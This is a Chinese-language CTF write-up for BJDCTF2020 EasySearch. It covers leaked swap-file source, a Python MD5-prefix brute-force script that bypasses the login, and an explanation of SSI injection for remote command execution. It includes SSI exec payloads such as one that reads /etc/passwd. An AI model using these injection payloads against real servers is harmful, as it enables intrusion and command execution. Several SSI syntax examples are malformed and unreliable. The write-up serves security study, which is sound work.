







# [BJDCTF2020]EasySearch

## 知识点

`index.php.swf`

`python md5生成`

`SSI注入`

## 解题

首先进入题目，有一个登录框，源码没啥东西，先上一手爆破


爆破半天没有找到有用的信息，扫一下目录，然后发现了`index.php.swp`文件



```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

需要获得`md5`开头为`6d0bc1`的字符串，`python`爆一下,[生成md5的python代码](Scripts/gene_md5.py)

```python
import hashlib
import string
import itertools


def gene_md5(plaintext: str):
    md5 =  hashlib.md5()
    md5.update(plaintext.encode())
    return md5.hexdigest()

def get_data():
    for i in range(10):
        print(f"[*] try gene {i}")
        combinations_with_replacement = list(itertools.combinations_with_replacement(string.ascii_letters, i))
        combinations_with_replacement_str = [''.join(combination) for combination in combinations_with_replacement]
        for data in combinations_with_replacement_str:
            tmp_md5 = gene_md5(data)
            if tmp_md5[0:6] == "6d0bc1":
                print(f"[+] {data}  ===> {tmp_md5}")
                exit(0)


if __name__ == "__main__":
    get_data()
```

`cfkpqH`满足条件，`POST`传值之后在响应头里给了`url路径`



然后打开页面没有什么东西，源码也没什么东西，但是很像`SSTI`注入,但是看了文件后缀名，又看了其他`wp`之后发现是`SSI`注入

`SSI 注入`全称`Server-Side Includes Injection`（服务端包含注入），`ssi`可以赋予`html`静态页面的动态效果，通过`ssi`执行命令，返回对应的结果，网站目录中发现`.stm` `.shtm` `.shtml`

```html
<div>{$what}</div>
<p>Welcome, {{username}}</p>
<div></div>
```

就容易产生`ssi`注入，这里实现`RCE`的方法为：`<!--#exec cmd="命令" -->`。




### `SSI`语法

1.显示服务器端环境变量`<#echo>`

```ssi
本文档名称：
<!--#echo var="DOCUMENT_NAME"-–>

现在时间：
<!--#echo var="DATE_LOCAL"–->

显示IP地址：
<!--#--> #echo var="REMOTE_ADDR"–->


```

2.将文本内容直接插入到文档中`<#include>`

```
<! #include file="文件名称"–->
<!--#include virtual="index.html" -->
<! #include virtual="文件名称"–->
<!--#include virtual="/www/footer.html" -->
```

注：`file`包含文件可以在同一级目录或其子目录中，但不能在上一级目录中，`virtual`包含文件可以是`Web`站点上的虚拟目录的完整路径

3.显示WEB文档相关信息`<#flastmod>` `<#fsize>`(如文件制作日期/大小等)

文件最近更新日期：

```
<--! #flastmod file="文件名称"-–>
```

文件的长度：

```
<!--#fsize file="文件名称"–->
```

4.直接执行服务器上的各种程序`<#exec>`(如`CGI`或其他可执行程序)

```
<!--#exec cmd="文件名称"–->
<!--#exec cmd="cat /etc/passwd"-->
<!--#exec cgi="文件名称"–->
<!--#exec cgi="/cgi-bin/access_log.cgi"–->
```









[参考文章1](https://www.freebuf.com/articles/network/245231.html)
[参考文章2](https://www.cnblogs.com/upfine/p/16500169.html)